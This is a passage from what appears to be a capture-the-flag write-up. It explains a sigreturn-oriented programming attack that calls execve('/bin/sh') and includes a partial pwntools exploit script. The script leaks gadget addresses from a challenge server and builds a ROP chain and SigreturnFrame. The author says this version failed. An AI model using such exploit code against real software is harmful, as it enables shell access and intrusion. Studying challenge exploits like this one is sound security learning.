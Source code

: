 To start with, a pop rax; ret; gadget, a syscall gadget, and the address of /bin/sh can be used to do a SIGROP to get a shell, assuming that the overflow is long or unlimited. I won't go into too much detail about the attack here, but in summary, the idea is to use the pop rax and syscall gadgets to call the sigret instruction, which loads all of the registers with bytes from the stack. A sufficiently large overflow allows the attacker to fill those areas of the stack with the bytes of their choice to be loaded into specific, predictable registers, and execve('/bin/sh', 0, 0) can be called by filled the rip register with the syscall address, the rax register with 59, rdi with the /bin/sh address, and rsi and rdx with 0. Pwntools provides a SigreturnFrame functionality that makes it easy to append the appropriate stack values after the initial ROP chain, and if you would like to read more about exactly how a SIGROP works, I have a more detailed writeup on a white-box SIGROP challenge over here: https://github.com/knittingirl/CTF-Writeups/tree/main/pwn_challs/MetaCTF21/Little_Boi

So, under the assumption that the addresses following the gadgets pointed to the start of those gadgets, I calculated the offsets of those gadgets and attempted to plug them in to a standard SIGROP exploit. This failed without really giving me any reason for why. This script looked like:
```
from pwn import *

target = remote('0.cloud.chals.io', 21978)

context.arch = "amd64"

frame = SigreturnFrame()

print(target.recvuntil(b'Push your way to /bin/sh at :'))

leak = (target.recvline())
print(leak)
binsh = int(leak, 16)
print('binsh is at', hex(binsh))

payload = b'Y'
target.send(payload)
print(target.recvuntil(b'Would you like another push (Y/*) >>>'))
target.sendline(b'Y')

print(target.recvuntil(b'Would you like another push (Y/*) >>>'))
target.sendline(b'Y')
print(target.recvuntil(b'~ push 0x58585858; ret |'))
leak = (target.recvline())
print(leak)

pop_rax = int(leak, 16) + 4
print('pop rax ret at ', hex(pop_rax))

print(target.recvuntil(b'Would you like another push (Y/*) >>>'))
target.sendline(b'Y')
print(target.recvuntil(b'~ push 0x0f050f05; ret |'))
leak = (target.recvline())
print(leak)
syscall = int(leak, 16) + 2

print('syscall at', hex(syscall))

padding = b'a' * 16 

payload = padding + p64(pop_rax) + p64(0xf) + p64(syscall)

frame.rip = syscall
frame.rdi = binsh 
frame.rax = 59
frame.rsi = 0
frame.rdx = 0

```